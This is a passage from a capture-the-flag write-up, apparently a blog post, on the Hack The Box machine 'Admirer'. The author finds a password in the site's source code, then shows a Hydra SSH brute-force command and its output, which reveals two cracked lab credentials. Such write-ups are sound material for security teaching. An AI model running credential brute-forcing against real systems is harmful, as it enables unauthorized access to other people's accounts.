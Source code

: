 I wasn't even sure that this was going to work, but to my surprise it retrieved the file and added it to my database. I now had a way to read through the source code of the production website as opposed to the backups I downloaded earlier.

![Another password was found in the source code](/assets/img/9-yet-another-password.png)

Much to my surprise...there was yet again another password contained in this file. Before trying to download any more files I decided to try to brute force SSH login again with this new password.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 22:49:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:11/p:7), ~5 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 22:50:00
```

I had finally found a usable password for `waldo`!  I hoped that it wouldn't just kick me out like it had with `ftpuser`. 

### User.txt

